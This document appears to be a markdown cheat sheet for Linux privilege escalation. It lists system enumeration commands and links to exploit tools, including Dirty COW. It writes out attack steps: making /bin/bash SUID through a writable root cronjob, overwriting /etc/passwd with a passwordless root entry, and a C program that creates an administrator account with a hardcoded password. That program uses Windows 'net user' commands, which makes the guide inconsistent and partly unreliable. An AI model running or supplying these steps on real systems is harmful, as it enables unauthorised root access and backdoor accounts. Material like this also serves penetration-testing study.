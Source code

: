 ## Do this first
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
```

## Find OS version
```
cat /etc/*-release
uname -i
lsb_release -a
```
## Logged in user
```
id
whoami
pwd
```
## Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
## curently running processes
```
ps aux
netstat -antup
```
## What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## use a script to find the answers
```
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

## User editable cronjobs
```
crontab -l
```

## Application based cron jobs
```
ls -all /etc/cron.d
```
## if you find a cronjob running as root but can be editable run this command
```
chmod u+s /bin/bash
and then this,
/bin/bash -p
```

## Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

## Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## SUID checker
```
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

## If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```
